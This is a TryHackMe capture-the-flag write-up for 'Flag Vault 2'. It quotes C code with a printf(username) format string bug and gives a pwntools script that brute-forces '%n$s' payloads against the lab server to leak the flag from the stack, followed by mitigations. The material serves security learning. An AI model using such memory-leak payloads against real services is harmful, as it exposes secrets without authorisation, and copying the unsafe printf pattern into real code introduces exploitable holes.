

# TryHackMe - Flag Vault 2 (CTF Write-up)

> Author: Adam Pawelczyk
>
> Date: 2025.07.10
>
> Category: Binary Exploitation>
>
> Difficulty: Easy
>
> [TryHackMe Link](https://tryhackme.com/room/hfb1flagvault2)

---

## Challenge Description

> How did you do that? No worries. I'll adjust a couple of lines of code so you won't be able to get the flag anymore.
> This time, for real. Here's the source code once again.

Looks like ByteReaper wasn't too happy with us getting the flag last time. In this follow-up to the "Flag Vault" challenge, the developer claims to have fixed the vulnerability and made the flag inaccessible. Naturally, our job is to prove him wrong, again.

## Goal

Find and exploit a vulnerability in the updated code to retrieve the flag.

## TL;DR

- Reviewed the updated C source code.
- Noticed that the flag isn't printed anymore, but it's still read from `flag.txt`.
- Found a format string vulnerability in `printf(username)` inside `print_flag()`.
- Used the `%s` format specifier with positional arguments to leak memory contents.
- Brute-forced stack positions until the flag appeared in the output.

## Source Code Analysis

Here's the updated part of the code that caught my attention:

```c
void print_flag(char *username){
    FILE *f = fopen("flag.txt","r");
    char flag[200];

    fgets(flag, 199, f);
    //printf("%s", flag);
	
	//The user needs to be mocked for thinking they could retrieve the flag
	printf("Hello, ");
	printf(username);
	printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
	printf("Yours truly,\nByteReaper\n\n");
}
```

### Observations:

- The flag is still being read into memory from `flag.txt`, but the line that prints it is commented out.
- The `username` input is passed directly into `printf()` without a format string - a format string vulnerability.
- Since `flag` is sitting on the stack and we control `username`, we can try to leak memory using format specifiers.

## Exploitation Strategy

Plan:
1. Abuse the vulnerable `printf(username)` to leak stack data.
2. Use `%<n>$s` to print a string from a specific stack position.
3. Brute-force different values of `<n>` until the flag appears.

## Exploit Code

Here's the Python exploit using `pwntools`:

```python
from pwn import *

context.log_level = 'warning'

for position in range(1, 101):
    conn = remote('10.10.239.226', 1337)
    payload = f'%{position}$s'

    conn.recvuntil(b'Username:')
    conn.sendline(payload.encode())

    response = conn.recvall().decode()

    if 'THM{' in response:
        print(response)
        break
```

This script:
- Connects to the challenge server.
- Sends a payload like `%1$s`, `%2$s`, etc.
- Checks each response for the presence of the flag.
- Stops when the flag is found and printed back to us.

## Exploitation Output

Here's what I got upon executing the script:



The screenshot shows the flag successfully leaked through the format string vulnerability.

## What Happened?

This version tried to hide the flag by commenting out the `printf(flag)` line. But the dev didn't consider the consequences of using a user-controlled string in a raw `printf()` call. Without a format string, `printf(username)` treats input as a format string, meaning `%s`, `%x`, and other format directives are interpreted by the program.

The `flag` variable, despite not being printed directly, still lives on the stack after being loaded. With enough brute-forcing, we landed on the correct stack position and used `%s` to leak the string.

## Conclusion

This was an example of a format string bug. Even though the flag wasn't directly printed anymore, the vulnerability allowed us to leak it from memory anyway.

### Skills Practiced

- Format string exploitation.
- Brute-forcing positional arguments.
- Using `pwntools` to automate and streamline exploitation.

### Mitigations

- Never use user input directly in `printf()`. Always use a format string like `printf("%s", username);`.
- Be cautious even when hiding or commenting out code - data still in memory can still be leaked.

## Final Thoughts

This challenge was a great follow-up to the original. It reinforced the importance of secure coding practices - especially in C. It's always satisfying to bypass a developer's "fix" and find another hole they didn't think of.

**Note:** The flag was redacted to comply with TryHackMe's write-up policy.